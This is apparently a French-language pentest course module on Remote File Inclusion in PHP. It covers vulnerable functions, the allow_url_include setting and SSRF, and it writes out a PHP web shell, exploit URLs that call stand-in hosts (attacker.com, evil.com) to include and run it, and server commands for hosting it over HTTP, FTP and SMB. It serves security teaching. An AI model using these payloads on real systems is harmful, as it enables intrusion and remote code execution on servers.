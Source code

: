 # Remote File Inclusion (RFI)

***

#### <mark style="color:green;">Inclusion de Fichiers à Distance (RFI)</mark>

Jusqu’à présent dans ce module, nous nous sommes principalement concentrés sur les **inclusions de fichiers locaux** (_Local File Inclusion – LFI_).\
Cependant, dans certains cas, il est également possible d’inclure des fichiers **à distance** — on parle alors de **Remote File Inclusion (RFI)** — si la fonction vulnérable autorise l'inclusion d’URL distantes.

***

#### <mark style="color:green;">🎯 Avantages de la RFI</mark>

L’inclusion de fichiers distants permet **deux bénéfices principaux** :

1. **Énumération de services internes** (ex : ports ouverts ou applications web locales)\
   → via des attaques de type **SSRF** (_Server-Side Request Forgery_)
2. **Exécution de code à distance (RCE)**\
   → en hébergeant un **script PHP malveillant** sur un serveur que nous contrôlons, puis en le faisant inclure dans la page vulnérable.

***

#### <mark style="color:green;">📌 LFI vs RFI</mark>

Lorsqu’une fonction vulnérable autorise l’inclusion de fichiers distants, on peut potentiellement **héberger un script malveillant (shell PHP)** et le faire exécuter par la cible.

**🧠 Exemple de RFI :**

```php
include($_GET['page']);
```

Requête RFI possible :

```
http://vuln.site/index.php?page=http://attacker.com/shell.txt
```

> Résultat : le script `shell.txt` hébergé à distance est inclus et exécuté sur le serveur cible.

***

#### <mark style="color:green;">🔍 Fonctions PHP vulnérables à RFI (et LFI)</mark>

Selon le tableau dans la section précédente, les fonctions suivantes permettent des inclusions de fichiers :

* `include()`
* `include_once()`
* `require()`
* `require_once()`
* `fopen()`
* `file_get_contents()`
* `readfile()`
* `copy()`

***

#### ⚠️ À noter

* **Presque toutes les vulnérabilités RFI sont aussi des LFI**, car une fonction qui autorise les URL autorise généralement aussi les chemins locaux.
* MAIS l’inverse n’est **pas forcément vrai** : une LFI n’est **pas toujours une RFI**.

**🔒 3 raisons principales pour lesquelles une LFI ≠ RFI :**

1. **La fonction vulnérable ne permet pas les URL distantes**\
   → Ex : `file_exists()` ou `is_file()` peuvent refuser `http://`.
2. **L'utilisateur ne contrôle pas l'entièreté de la chaîne (préfixe imposé)**\
   → Ex : on ne peut pas injecter `http://evil.com/shell.php` car seul le nom de fichier est modifiable.
3.  **Configuration du serveur :**\
    → Par défaut, la plupart des serveurs PHP **désactivent** les inclusions distantes :

    ```ini
    allow_url_include = Off
    allow_url_fopen = Off
    ```

***

#### <mark style="color:green;">🛰️ RFI sans exécution de code : SSRF</mark>

Même si une fonction permet l’inclusion d’une URL distante **sans exécuter le code**, cela peut être **exploité pour du SSRF** (Server-Side Request Forgery).

**✅ Utilisations typiques dans ce cas :**

* Scanner des **services internes** (`http://localhost:8080`)
* Lire des **fichiers HTTP exposés** (par ex : `http://169.254.169.254/latest/meta-data/`)
* Déterminer la présence de ports/services à partir des erreurs (temps de réponse, etc.)

***

#### 🧪 Exemple d’attaque RFI pour RCE

```php
include($_GET['load']);
```

**Script malveillant hébergé sur serveur contrôlé :**

```php
<?php system($_GET['cmd']); ?>
```

**URL d'exploitation :**

```
http://vuln.site/index.php?load=http://evil.com/shell.php&cmd=id
→ Résultat : exécution de la commande `id` sur le serveur cible
```

***

#### <mark style="color:green;">🔍 Vérification de la RFI</mark>

* La plupart des langages (dont PHP) **désactivent par défaut l’inclusion de fichiers distants**.
* En PHP, il faut que `allow_url_include = On` dans le `php.ini` pour inclure des URL distantes avec `include()` / `require()`.

**✅ Vérifier via LFI :**

```bash
$ echo 'W1BIUF0KCjs7Ozs7...==' | base64 -d | grep allow_url_include
```

🔹 Si la réponse contient `allow_url_include = On`, alors **l'inclusion distante est peut-être possible**.

***

#### 🧪 Tester l’inclusion d’une URL locale (détection SSRF/RFI)

```url
http://cible/index.php?page=http://127.0.0.1/index.php
```

* Si on obtient le contenu de la page, la RFI est **activée**.
* Peut permettre d’**énumérer des services locaux** : ex. `http://127.0.0.1:8080/`

***

#### 💥 Exécution de code à distance (RCE)

**1. Préparer un web shell PHP :**

```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**2. L’héberger avec un serveur HTTP local :**

```bash
$ sudo python3 -m http.server 80
```

**3. L’inclure via la RFI :**

```url
http://cible/index.php?page=http://<IP>:80/shell.php&cmd=id
```

📌 Vérifier si `.php` est ajouté automatiquement par le serveur.

***

#### 🔁 Autres protocoles utilisables

**📡 FTP (si HTTP bloqué ou filtré)**

1. Lancer un serveur FTP :

```bash
$ sudo python -m pyftpdlib -p 21
```

2. RFI avec FTP :

```url
http://cible/index.php?page=ftp://<IP>/shell.php&cmd=id
```

🔐 Si authentification requise :

```url
ftp://user:pass@<IP>/shell.php
```

***

**🪟 SMB (serveur Windows)**

1. Lancer un serveur SMB :

```bash
$ impacket-smbserver -smb2support share $(pwd)
```

2. Inclure avec chemin UNC :

```url
\\<IP>\share\shell.php&cmd=whoami
```

⚠️ Fonctionne surtout **en réseau local** (SMB distant souvent bloqué).

***

#### 🧠 À retenir

* ✅ **RFI activée** → possible **RCE + SSRF**
* ❌ `allow_url_include` désactivé → souvent limité à **LFI**
* 🔥 Protocoles supportés : `http://`, `ftp://`, `smb://` (Windows)
* ⚠️ Les pare-feux/WAFs peuvent bloquer certaines chaînes (`http://`, `ftp://`)

***
